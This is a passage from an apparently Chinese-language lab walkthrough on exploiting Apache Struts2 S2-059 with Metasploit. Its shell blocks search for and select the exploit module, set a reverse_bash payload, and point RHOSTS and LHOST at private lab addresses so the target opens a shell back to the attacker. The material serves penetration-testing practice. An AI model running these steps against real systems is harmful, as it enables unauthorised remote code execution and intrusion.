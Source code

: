 ### 2. 搜索并使用漏洞模块

```bash
search struts2 type:exploit
search S2-059 type:exploit
info 0
use 0
```

查看并设置参数：

```bash
show options
show payloads
set payload payload/cmd/unix/reverse_bash
set RHOSTS 192.168.206.4
set RPORT 23068
set LHOST 192.168.242.7
```

![](./image/查看exp参数配置.png)